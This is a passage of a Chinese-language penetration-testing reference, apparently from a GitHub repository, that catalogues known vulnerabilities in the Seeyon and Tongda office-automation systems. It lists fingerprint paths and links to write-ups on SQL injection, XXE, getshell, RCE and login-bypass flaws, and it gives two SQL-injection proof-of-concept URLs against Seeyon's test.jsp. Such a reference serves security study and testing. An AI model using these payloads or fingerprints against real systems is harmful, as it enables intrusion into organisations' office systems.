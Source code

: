 
## 致远

> 官网 : http://www.seeyon.com/

**指纹**
- `/seeyon/htmlofficeservlet`
- `/seeyon/index.jsp`
- `seeyon`

**致远 OA A6 test.jsp sql 注入漏洞**
- 文章
    - [用友致远A6 OA存在sql注入并拿shell](https://www.pa55w0rd.online/yyoa/)

- POC | Payload | exp
    ```
    www.test.com/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
    www.test.com/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)
    ```

**致远 OA 帆软报表组件前台 XXE 漏洞**
- 文章
    - [致远OA帆软报表组件前台XXE漏洞(0day)挖掘过程](https://landgrey.me/blog/8/)

**帆软报表 v8.0 Getshell 漏洞**
- 文章
    - [帆软报表v8.0 Getshell漏洞分析](http://foreversong.cn/archives/1378)

**A8-OA-seeyon-RCE**
- 文章
    - [致远A8协同办公系统poc/seeyon 0day](https://www.jianshu.com/p/562f45edde2d)
    - [致远 OA A8 htmlofficeservlet getshell (POC&EXP)](http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/)

- POC | Payload | exp
    - [RayScri/A8-OA-seeyon-RCE](https://github.com/RayScri/A8-OA-seeyon-RCE)

---

## 通达

> 官网 : https://www.tongda2000.com/

**指纹**
- `tongda.ico`
- `Office Anywhere 20xx版 网络智能办公系统`
- `/ispirit/interface/gateway.php`
- `/mac/gateway.php`

**通达 OA 任意用户登录漏洞**
- 影响版本
    - 通达 OA 2017
    - 通达 OA V11.X--V11.5

- 文章
    - [通达OA < 11.5任意用户登录漏洞分析](https://mp.weixin.qq.com/s/yJuLhC1GxkMbGL0mRORIoA)
    - [通达OA 任意用户登录漏洞（匿名RCE）分析](https://www.zrools.org/2020/04/23/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-%E9%80%9A%E8%BE%BEOA-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E%EF%BC%88%E5%8C%BF%E5%90%8DRCE%EF%BC%89%E5%88%86%E6%9E%90/)
    - [通达OA<11.5任意用户登陆另一处利用方法分析](https://mp.weixin.qq.com/s/I3dtd2ORNo_-vR9zWgnJjw)

